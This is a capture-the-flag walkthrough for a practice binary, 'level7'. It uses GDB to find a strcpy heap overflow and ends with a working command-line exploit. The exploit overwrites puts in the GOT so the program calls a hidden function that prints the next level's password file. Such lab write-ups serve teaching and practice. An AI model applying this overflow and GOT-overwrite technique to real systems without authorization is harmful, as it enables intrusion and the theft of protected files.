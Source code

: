 # Level7

First step - testing the program

	$ ./level7
	Segmentation fault (core dumped)
	$ ./level7 coucou
	Segmentation fault (core dumped)
	$ ./level7 coucou coucou
	~~
	$ ./level7 coucou coucou coucou
	~~

Hm ok

Start in GDB

	gdb-peda$ pdisas main
	Dump of assembler code for function main:
	   0x08048521 <+0>:		push   ebp
	   0x08048522 <+1>:		mov    ebp,esp
	   0x08048524 <+3>:		and    esp,0xfffffff0
	   0x08048527 <+6>:		sub    esp,0x20
	   0x0804852a <+9>:		mov    DWORD PTR [esp],0x8
	   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
	   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
	   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
	   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
	   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
	   0x08048550 <+47>:	mov    edx,eax
	   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
	   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
	   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax
	   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]
	   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2
	   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
	   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
	   0x0804857f <+94>:	mov    edx,eax
	   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
	   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x0804858b <+106>:	add    eax,0x4
	   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]
	   0x08048590 <+111>:	mov    edx,eax
	   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
	   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
	   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
	   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
	   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x080485a8 <+135>:	add    eax,0x8
	   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
	   0x080485ad <+140>:	mov    edx,eax
	   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
	   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
	   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
	   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
	   0x080485c2 <+161>:	mov    edx,0x80486e9
	   0x080485c7 <+166>:	mov    eax,0x80486eb
	   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
	   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
	   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
	   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
	   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
	   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
	   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
	   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
	   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
	   0x080485fc <+219>:	mov    eax,0x0
	   0x08048601 <+224>:	leave
	   0x08048602 <+225>:	ret
	End of assembler dump.

Many interesting things here. 2 "strcpy" call. 1 fopen call. 1 fgets call

See the fopen parameters

	0x080485c2 <+161>:	mov    edx,0x80486e9
	0x080485c7 <+166>:	mov    eax,0x80486eb
	0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
	0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
	0x080485d3 <+178>:	call   0x8048430 <fopen@plt>

	(gdb-peda)$ x/s 0x80486e9
	0x80486e9:	"r"
	(gdb-peda)$ x/s 0x80486eb
	0x80486eb:	"/home/user/level8/.pass"

It's an open on the file we need

List all the functions

	gdb-peda$ info function
	All defined functions:

	Non-debugging symbols:
	0x0804836c  _init
	0x080483b0  printf@plt
	0x080483c0  fgets@plt
	0x080483d0  time@plt
	0x080483e0  strcpy@plt
	0x080483f0  malloc@plt
	0x08048400  puts@plt
	0x08048410  __gmon_start__@plt
	0x08048420  __libc_start_main@plt
	0x08048430  fopen@plt
	0x08048440  _start
	0x08048470  __do_global_dtors_aux
	0x080484d0  frame_dummy
	0x080484f4  m
	0x08048521  main
	0x08048610  __libc_csu_init
	0x08048680  __libc_csu_fini
	0x08048682  __i686.get_pc_thunk.bx
	0x08048690  __do_global_ctors_aux
	0x080486bc  _fini

There is a non-called "m" function

	(gdb-peda)$ pdisas m
	Dump of assembler code for function m:
	   0x080484f4 <+0>:		push   ebp
	   0x080484f5 <+1>:		mov    ebp,esp
	   0x080484f7 <+3>:		sub    esp,0x18
	   0x080484fa <+6>:		mov    DWORD PTR [esp],0x0
	   0x08048501 <+13>:	call   0x80483d0 <time@plt>
	   0x08048506 <+18>:	mov    edx,0x80486e0
	   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
	   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
	   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
	   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
	   0x0804851f <+43>:	leave
	   0x08048520 <+44>:	ret
	End of assembler dump.

Printf the time and a global variable "0x8049960", the name is "c"

fgets put the result of the fopen on a global string "c", the same of the printf

We need to read this global variable by calling the function m

We can overwrite the puts call by "m" in the GOT using the strcpy overflow

*********************************

Get the address of puts in the GOT

	(gdb)$ info function puts
	All functions matching regular expression "puts":

	Non-debugging symbols:
	0x08048400  puts@plt

	(gdb)$ x/i 0x08048400
	0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928

The address is "0x08049928"

	(gdb-peda)$ info function m
	All functions matching regular expression "m":

	Non-debugging symbols:
	0x080483d0  time@plt
	0x080483f0  malloc@plt
	0x08048410  __gmon_start__@plt
	0x08048420  __libc_start_main@plt
	0x080484d0  frame_dummy
	0x080484f4  m
	0x08048521  main

The address is "0x080484f4"

Get the offset of the first strcpy overflow, with my python scripts

	(gdb) r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
	Starting program: /home/user/level7/level7 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

	Program received signal SIGSEGV, Segmentation fault.
	0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6

EIP was not overwritten, check all registers

	(gdb) i r
	eax            0x46464646	1179010630
	ecx            0x0	0
	edx            0x46464646	1179010630
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff54c	0xbffff54c
	ebp            0xbffff578	0xbffff578
	esi            0x0	0
	edi            0x0	0
	eip            0xb7eb8aa8	0xb7eb8aa8
	eflags         0x210282	[ SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

EAX and EDX was overwritten, get the offset

	./get_offset.py 46
	F => offset = 20

The offset is 20

With the first argument overflow, we can inject the puts GOT address on the second argument address

argv[1] = 20, if we inject more, we replace the argv[2] address, with the puts GOT address in this case

Finaly, in the second argument, just fill the puts GOT address with the address we want! The address of m

	argv[1] = "a" * 20 + "puts GOT addr"
	argv[2] -> puts GOT addr = "m addr"

	./level7 $(python -c 'print "a"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
